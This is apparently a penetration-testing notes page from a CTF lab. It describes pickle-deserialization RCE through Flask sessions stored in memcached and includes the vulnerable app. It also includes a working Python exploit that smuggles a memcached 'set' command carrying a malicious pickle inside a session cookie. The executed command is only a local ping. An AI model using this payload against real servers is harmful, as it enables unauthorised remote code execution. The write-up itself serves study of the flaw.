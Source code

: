 # Content

# Memcached 
if an app use memcached to store session and trust user given session , the session is serialzed in the memory and if the app uses the session to get any info from it it will be vuln to RCE 

## Python 
example of an vuln lap from HTB cyber-apocalypse-2024 CTF

```python
mport pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

- `SESSION_TYPE = memcached` which tells Flask-Session to store the sessions on a memcached instance
- in any `session.get` it will try to get the info from memcache , which is the session is now malcious and when desrialzed it will execute code 


### Exploit

based on this [blog](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/)

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('ping -c 1 localhost')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
```

![Screenshot_4](https://github.com/kiro6/penetration-testing-notes/assets/57776872/f58f25f9-c27f-48ac-87cc-54577ffe8d7b)



![Screenshot_1](https://github.com/kiro6/penetration-testing-notes/assets/57776872/e2534c41-7aa4-4db8-b06f-259504ebce88)
